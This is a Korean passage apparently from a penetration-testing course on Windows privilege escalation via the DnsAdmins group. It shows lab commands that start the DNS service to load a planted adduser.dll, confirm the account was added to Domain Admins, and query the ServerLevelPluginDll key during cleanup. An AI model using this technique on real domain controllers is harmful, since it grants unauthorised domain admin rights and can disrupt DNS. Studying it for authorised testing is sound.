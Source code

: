 DNS 서비스가 사용자 지정 DLL을 시작하고 실행하려고 시도하지만 상태를 확인하면 올바르게 시작하지 못한 것으로 표시됩니다(나중에 자세히 설명합니다).

**DNS 서비스 시작**

&#x20; DNS 서비스 시작

```
C:\htb> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```

**그룹 멤버십 확인**

모든 것이 계획대로 진행되면 계정이 도메인 관리자 그룹에 추가되거나 연결을 다시 제공하기 위해 사용자 지정 DLL을 만든 경우 리버스 셸을 받게 됩니다.

&#x20; 그룹 멤버십 확인

```
C:\htb> net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

***

### 정리 <a href="#undefined" id="undefined"></a>

도메인 컨트롤러에서 구성을 변경하고 DNS 서비스를 중지/재시작하는 것은 매우 파괴적인 작업이므로 매우 신중하게 수행해야 합니다. 침투 테스터로서 이러한 유형의 작업을 진행하기 전에 클라이언트가 먼저 실행해야 하는데, 이는 잠재적으로 전체 Active Directory 환경의 DNS를 다운시키고 많은 문제를 일으킬 수 있기 때문입니다. 고객이 이 공격을 진행하도록 허락하는 경우, 저희는 흔적을 남기지 않고 직접 정리하거나 고객에게 변경 사항을 되돌릴 수 있는 단계를 제공할 수 있어야 합니다.

이러한 단계는 로컬 또는 도메인 관리자 계정으로 상승된 콘솔에서 수행해야 합니다.

**레지스트리 키 추가 확인**

첫 번째 단계는 `ServerLevelPluginDll` 레지스트리 키가 존재하는지 확인하는 것입니다. 사용자 지정 DLL을 제거하기 전까지는 DNS 서비스를 다시 올바르게 시작할 수 없습니다.

&#x20; 레지스트리 키 추가 확인

```
C:\htb> reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters
    GlobalQueryBlockList    REG_MULTI_SZ    wpad\0isatap
    EnableGlobalQueryBlockList    REG_DWORD    0x1
    PreviousLocalHostname    REG_SZ    WINLPE-DC01.INLANEFREIGHT.LOCAL
    Forwarders    REG_MULTI_SZ    1.1.1.1\08.8.8.8
    ForwardingTimeout    REG_DWORD    0x3
    IsSlave    REG_DWORD    0x0
    BootMethod    REG_DWORD    0x3
    AdminConfigured    REG_DWORD    0x1
    ServerLevelPluginDll    REG_SZ    adduser.dll
```
